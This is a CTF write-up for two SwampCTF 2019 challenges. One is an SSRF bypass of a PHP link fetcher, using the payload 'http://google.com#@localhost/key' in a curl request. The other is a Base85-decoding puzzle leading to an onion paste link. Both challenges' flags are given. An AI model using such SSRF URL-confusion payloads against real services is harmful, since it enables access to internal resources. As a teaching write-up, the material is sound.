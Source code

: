 ```yaml
---
layout: post
title: [SwampCTF 2019 - Write-Ups](https://play.swampctf.com)
---
```


## Brokerboard [50]

### Problem Description

It's the year 1997 and the Internet is just heating up! :fire:

In order to get ahead of the curve, SIT Industries® has introduced it's first Internet product: The Link Saver™. SIT Industries® has been very secretive about this product - even going so far to hire Kernel Sanders® to test the security!

However, The Kernel discovered that The Link Saver had a little bit of an SSRF problem that allowed any user to fetch the code for The Link Saver™ from https://localhost/key and host it themselves :grimacing:. Fortunately, with a lil' parse_url magic, SIT Industries® PHP wizards have patched this finding from Kernel Sanders® and are keeping the code behind this wonderful site secure!

... or have they? :wink:

chal1.swampctf.com:1244

-= Created by andrewjkerr =-

### Solution

After connecting to the [website](http://chal1.swampctf.com:1244/) of the challenge, we obtain the following page:

![_config.yml]({{ site.baseurl }}/images/2019-4-8-SwampCTF2019/swampctf2019_img1.png)

There was an input field in the page allowing us to send a request to the URL we wanted.

After some tries I noticed that the only accepted URL was <www.google.com>. Taking this into account, we tried injecting <http://google.com#@localhost/key>.

```
$ curl http://google.com#@localhost/key --data="link=http://google.com#@localhost/key"

<html>
<head>
    <title>Link Fetcher</title>
</head>
<body>
    <h1>The Link Fetcher</h1>
    <p>Want to remember cool links? This link fetcher will fetch links and store them for you!</p>
    <form action="/" method="POST">
        <input type="text" name="link" />
        <input type="submit" />
    </form>

    <p>Link added!</p><p>Link: http://google.com#@localhost/key</p><p>Title: The flag!</p><p>Description: flag{y0u_cANn0t_TRU5t_php}</p><hr /></body>
```
Flag: **flag{y0u_cANn0t_TRU5t_php}**

## NIT [128]

### Problem Description

The network investigative technique had just triggered and we were starting receive telemetry when, suddenly, a pop-up asked him for administrative access. He freaked out and yanked his cable leaving us with a copious amount of line noise. We've been tracking this guy for a while and really need a win here.

See if you can get anything out of this mess:

A7]^gF*(u(BkVO)1MV#U/oPWADf.4LBQ&)IE+j2TD.GLe2e4XS@q%-(3+b!&3+=g#AMcDXAMuMZ@:V/M2e4jY

-= Created by v0ldemort =-

### Solution

We received a ciphered/encoded string, "A7]^gF*(u(BkVO)1MV#U/oPWADf.4LBQ&)IE+j2TD.GLe2e4XS@q%-(3+b!&3+=g#AMcDXAMuMZ@:V/M2e4jY". After trying to decipher it using many Cipher algorithms, I found the solution. It was encoded using [Base85](https://en.wikipedia.org/wiki/Ascii85):

I used [CyberChef](https://gchq.github.io/CyberChef) to decode the string obtaining an onion link (depastedihrn3jtw.onion/show.php?md5=7d1ecb0f8f428b70e49de68ead337d7e):

![_config.yml]({{ site.baseurl }}/images/2019-4-8-SwampCTF2019/swampctf2019_img2.png)

This link shows the following information in the comments:

![_config.yml]({{ site.baseurl }}/images/2019-4-8-SwampCTF2019/swampctf2019_img3.jpg)

The comment with "flag = fecabed47e50e3a2b615e86d0e0f1c59" suggested me to visit the following onion link (depastedihrn3jtw.onion/show.php?md5=fecabed47e50e3a2b615e86d0e0f1c59), which shows the flag:

![_config.yml]({{ site.baseurl }}/images/2019-4-8-SwampCTF2019/swampctf2019_img4.jpg)

Flag: **flag{sp00ky_W3bz_L0L}**




